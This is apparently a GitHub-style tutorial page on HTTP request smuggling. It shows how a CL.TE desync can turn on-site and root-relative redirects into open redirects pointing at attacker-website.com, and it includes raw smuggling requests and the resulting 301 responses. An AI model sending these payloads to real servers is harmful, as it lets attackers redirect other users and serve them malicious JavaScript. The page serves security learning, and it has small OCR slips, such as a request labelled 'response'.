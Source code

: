 ```http
```
### Turn an on-site redirect into an open redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. 
**An example** of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:
```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```
NOTE: if the user's request was for a JavaScript. The attacker can fully compromise the victim user by returning their own JavaScript in the response. 

- response
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
- wait for another to make a request then will be redirected 
```http
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```
### Turning root-relative redirects into open redirects
```
1)In some cases, you may encounter server-level redirects that use the path to construct a root-relative URL
2)This can potentially still be used for an open redirect if the server lets you use a protocol-relative URL in the path
```
NOTE : if the user's request was for a JavaScript. The attacker can fully compromise the victim user by returning their own JavaScript in the response. 

- request
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

```
- wait for another to make a request then will be redirected
```http
HTTP/1.1 301 Moved Permanently
Location: //attacker-website.com/example/
```
